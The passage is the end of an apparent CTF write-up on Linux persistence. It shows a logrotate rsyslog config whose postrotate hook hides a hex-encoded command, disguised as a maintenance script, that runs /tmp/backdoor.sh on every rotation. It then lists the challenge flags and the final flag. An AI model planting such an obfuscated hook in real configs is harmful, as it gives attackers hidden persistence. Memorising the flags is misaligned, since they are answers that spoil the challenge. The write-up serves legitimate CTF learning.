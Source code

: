 
- logrotate.d/rsyslog

```bash
/var/log/syslog
/var/log/mail.info
/var/log/mail.warn
/var/log/mail.err
/var/log/mail.log
/var/log/daemon.log
/var/log/kern.log
/var/log/auth.log
/var/log/user.log
/var/log/lpr.log
/var/log/cron.log
/var/log/debug
/var/log/messages
{
  rotate 4
  weekly
  missingok
  notifempty
  compress
  delaycompress
  sharedscripts
  postrotate
    /usr/lib/rsyslog/rsyslog-rotate
                # Regular maintenance script version 4c33616b7b3130675f376834375f35683331317d
                $(echo -n '2f746d702f6261636b646f6f722e7368' | xxd -r -p)
  endscript
}
```

The compilation of the file:

1 - L3ak{5up3r_5h311_u53r}

2 - L3ak{53rv1c3_@nd_T1m3r}

3 - L3ak{Cr0n5_50_C71ch3}

4 - L3ak{4p7_In57411_5h311}

5 - L3ak{initd_2_b0075}

6 - L3ak{rc_l0c4l_0n_b00t}

7 - L3ak{5h311_0f_7h3_D4y}

8 - L3ak{10g_7h47_5h311}

We input the flags in the nc listener and we get the final flag:


``` L3AK{C4nt_570p_W0n7_570p_p3rs1st} ```

---

Overall, great CTF, I enjoyed really much. Thanks to the L3ak team for the work and hope next year they manage to organize another CTF. Thanks for reading!

<br>